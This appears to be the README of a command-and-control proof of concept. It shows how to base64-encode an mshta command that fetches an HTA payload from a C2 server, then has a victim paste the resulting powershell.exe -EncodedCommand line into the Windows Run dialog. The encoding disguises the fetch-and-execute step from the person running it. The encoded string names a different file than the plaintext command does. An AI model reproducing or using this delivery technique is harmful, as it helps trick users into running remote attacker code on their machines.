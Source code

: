 # Command And Control Framework POC

## Encode the command

```
$Command = 'mshta http://localhost:3000/static/victim.hta'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Command)
[Convert]::ToBase64String($Bytes)
```

## Victim to Run to command by launching 🪟 + R

Example
```
powershell.exe -EncodedCommand bQBzAGgAdABhACAAaAB0AHQAcAA6AC8ALwBsAG8AYwBhAGwAaABvAHMAdAA6ADMAMAAwADAALwBzAHQAYQB0AGkAYwAvAGEAcABwAC4AaAB0AGEA
```
